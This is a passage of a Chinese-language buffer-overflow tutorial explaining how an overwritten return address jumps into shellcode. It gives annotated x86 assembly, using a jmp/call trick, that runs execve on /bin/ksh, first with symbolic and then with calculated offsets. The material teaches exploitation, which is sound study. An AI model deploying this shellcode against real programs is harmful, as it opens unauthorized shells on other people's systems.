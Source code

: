 sfp  : 栈基指针
ret  : 返回地址
a,b,c: 函数入口参数

(1)用0xD8覆盖返回地址后，子函数返回时将跳到0xD8处开始执行，也就是我们shellcode
   的起始处
(2)由于0xD8处是一个jmp指令，它直接跳到了0xE8处执行我们的call指令
(3)call指令先将返回地址(也就是字符串地址)0xEA压栈后,跳到0xDA处开始执行

12. 修改后的伪汇编代码

经过上述修改后,我们的汇编代码变成了下面的样子:

------------------------------------------------------------------------------
jmp    offset-to-call           # 3 bytes 1.首先跳到call指令处去执行
popl   %esi                     # 1 byte  3.从堆栈中弹出字符串地址到ESI中
movl   %esi,array-offset(%esi)  # 3 bytes 4.将字符串地址拷贝到字符串后面
movb   $0x0,nullbyteoffset(%esi)# 4 bytes 5.将null字节放到字符串的结尾
movl   $0x0,null-offset(%esi)   # 7 bytes 6.将null长字放到字符串地址的地址后面
movl   $0xb,%eax                # 5 bytes 7.将0xb拷贝到EAX中
movl   %esi,%ebx                # 2 bytes 8.将字符串地址拷贝到EBX中
leal   array-offset(%esi),%ecx  # 3 bytes 9.将字符串地址的地址拷贝到ECX
leal   null-offset(%esi),%edx   # 3 bytes 10.将null串的地址拷贝到EDX
int    $0x80                    # 2 bytes 11.调用中断指令int $0x80
movl   $0x1, %eax               # 5 bytes 12.将0x1拷贝到EAX中
movl   $0x0, %ebx               # 5 bytes 13.将0x0拷贝到EBX中
int    $0x80                    # 2 bytes 14.调用中断int $0x80
call   offset-to-popl           # 5 bytes 2.将返回地址压栈，跳到popl处执行
/bin/ksh string goes here.
------------------------------------------------------------------------------

13. 调整汇编代码

计算一下从jmp到call和从call到popl，以及从字符串地址到name数组，从字符串地址到
null串的偏移量，我们得到下面的程序:

------------------------------------------------------------------------------
jmp    0x2a               # 3 bytes 1.首先跳到call指令处去执行
popl   %esi               # 1 byte  3.从堆栈中弹出字符串地址到ESI中
movl   %esi,0x9(%esi)     # 3 bytes 4.将字符串地址拷贝到字符串后面
movb   $0x0,0x8(%esi)     # 4 bytes 5.将null字节放到字符串尾部
movl   $0x0,0xd(%esi)     # 7 bytes 6.将null长字放到字符串地址后
movl   $0xb,%eax          # 5 bytes 7.将0xb拷贝到EAX中
movl   %esi,%ebx          # 2 bytes 8.将字符串地址拷贝到EBX中
leal   0x9(%esi),%ecx     # 3 bytes 9.将字符串地址的地址拷贝到ECX
leal   0xd(%esi),%edx     # 3 bytes 10.将null串的地址拷贝到EDX
int    $0x80              # 2 bytes 11.调用中断指令int $0x80
movl   $0x1, %eax         # 5 bytes 12.将0x1拷贝到EAX中
movl   $0x0, %ebx         # 5 bytes 13.将0x0拷贝到EBX中
int    $0x80              # 2 bytes 14.调用中断int $0x80
call   -0x2f              # 5 bytes 2.将返回地址压栈,跳到popl处执行
.string \"/bin/ksh\"      # 9 bytes
------------------------------------------------------------------------------
